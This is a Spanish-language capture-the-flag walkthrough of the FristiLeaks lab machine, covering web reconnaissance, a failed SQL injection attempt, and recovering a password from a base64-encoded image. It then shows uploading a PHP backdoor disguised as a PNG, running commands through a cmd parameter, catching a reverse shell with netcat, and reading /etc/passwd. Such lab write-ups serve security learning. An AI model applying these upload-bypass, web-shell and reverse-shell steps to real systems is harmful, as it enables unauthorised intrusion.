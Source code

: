 Haciendo reconocimiento web, llegamos a que es valido el directorio `/fristi`, de hecho es un login. Se hacia referencia de esto en la imagen del index: _Keep Calm And Drink Fristi_.

No se puede hacer mucho hasta que se revisa el código fuente, donde hay varias pistas:
```python
<meta name="description" content="super leet password login-test page. We use base64 encoding for images so they are inline in the HTML. I read somewhere on the web, that thats a good way to do it.">
<!-- 
TODO:
We need to clean this up for production. I left some junk in here to make testing easier.

- by eezeepz
-->
```

También una imagen cuyo link está codificado: `data:img/png;base64,/9j/4AAQSkZJRgABAgAAZABkAA...`

Y un comentario también codificado, cuando se decodifica en base 64 no da un texto claro, sólo se puede ver una cadena como `PNG`.
## Engaño
Hubo intentos de SQLi que no funcionaron como:
```python
Username: eezeepz
Password: 1' or '1'='1
```

Conectando las ideas anteriores, procedemos a convertir la tercera cadena en imagen, porque según en el `<meta>` es la forma que se utilizó para hacer la contraseña.
```bash
echo "iVBORw0KGgoAAAANSUhEUgAAAW..." | base64 -d > imagen.png
```

La imagen da un texto en fondo blanco con contenido:
```js
keKkeKKeKKeKkEkkEk
```
## Explotación
Con esto obtenemos la siguiente respuesta:
```html
Login successful<p>
<a href="upload.php">upload file</a>
```

Creamos un payload backdoor en php con `$nano picture.php.png`. Para despues poder ejecutar comandos como id:  `http://192.168.0.70/fristi/uploads/picture.php.png?cmd=id`, dando como resultado: `uid=48(apache) gid=48(apache) groups=48(apache)`.

Posteriormente con una revShell, de php con `passthru`.
```python
$nc -lvnp 9001
[...]
script /dev/null -c bash
bash-4.1$ 
```
## GanarControl
sobre los usuario con bash, vemos lo siguiente:
```python
bash-4.1$ cat /etc/passwd | grep /bash                                          
root:x:0:0:root:/root:/bin/bash
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
eezeepz:x:500:500::/home/eezeepz:/bin/bash
admin:x:501:501::/home/admin:/bin/bash
fristigod:x:502:502::/var/fristigod:/bin/bash
```
